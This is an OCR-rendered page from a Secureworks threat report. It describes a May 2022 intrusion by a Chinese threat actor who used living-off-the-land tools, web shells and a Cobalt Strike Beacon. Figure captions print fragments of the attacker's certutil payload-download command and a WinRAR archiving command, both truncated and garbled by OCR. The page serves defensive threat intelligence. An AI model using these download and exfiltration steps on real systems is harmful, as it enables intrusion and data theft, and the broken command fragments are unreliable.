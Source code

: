 07
08
Stealth in ActionObservations 
from IR Engagements
CTU researchers have seen multiple examples of the Chinese 
tradecraft described in this section during Secureworks incident 
response engagements. Here are three typical examples:
During a May 2022 incident response engagement, 
Secureworks analysts observed a Chinese threat actor 
compromise an organization's network with the intent to steal 
intellectual property. The threat actor primarily used native 
operating system tools (a technique known as living off the 
land) to achieve their objectives, as well as a command\-and\-
control proxy network that included compromised SOHO 
routers.
The threat actor exploited a vulnerable Pulse Secure device 
as the initial access vector, deployed a variant of the Awen 
web shell and the Godzilla web shell to a second server in the 
environment, and then conducted reconnaissance commands 
such as whoami, hostname, and net group. They then used the 
certutil command to download a Cobalt Strike Beacon payload 
(see figure 21\).
They used the Cobalt Strike Beacon to execute domain\-wide 
reconnaissance commands including running the net view 
command to list the resources in a network share hosted on a 
server that stores the organization's intellectual property. The 
threat actor used the WinRAR utility to compress files stored 
within this share (see figure 22\).
01
Figure 21\. Certutil command to download Cobalt Strike Beacon.
(Source: Secureworks)
certutil \-urlcache \-f http:7sv
Figure 22\. WinRAR commands to archive data from network share.
(Source: Secureworks)
.svma \-r.tmp "" \-hp
47
2023 State of the Threat: A Year in Review
01
Letter From Our VP
Executive Summary 
and Key Findings
The Business of Cybercrime
Is Boomtime Back?
Innovations in TTPs Occur 
When Infection Chains Are 
Forced to Evolve
State\-Sponsored
Threat Activity
Threat Actor Use of
Artificial Intelligence
Conclusion
Appendix
02
03
04
05
06
07
08
This particular intrusion not only reinforces the fundamental 
need for network defenders to understand and mitigate risks 
based on changing attack surfaces, but also demonstrates the 
importance of extensive logging. CTU researchers strongly 
recommend that organizations collect appropriate Azure 